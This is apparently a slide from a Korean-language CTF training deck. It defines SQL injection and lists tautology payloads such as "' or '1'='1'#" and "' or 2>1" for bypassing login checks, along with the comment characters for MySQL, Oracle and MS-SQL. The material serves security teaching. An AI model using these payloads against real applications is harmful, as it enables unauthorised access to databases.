

Attack & Defense CTF
SQL Injection
SQL Injection
SQL 구문 중 사용자의 입력을 받는 부분을 조작하여 데이터베이스를 조회, 조작할 수 있는 취약점
' or '1'='1'#
 ' or '1'='1
' or 1<2#
 ' or 'anything’ like ‘any%’
 ' or 2>1
 ' or 'test'>'t‘
 ' or 'whatever‘ IN ('whatever')
 ' or 2 BETWEEN 1 AND 3
DB별 주석:
Mysql : #
Oracle , Ms-sql : --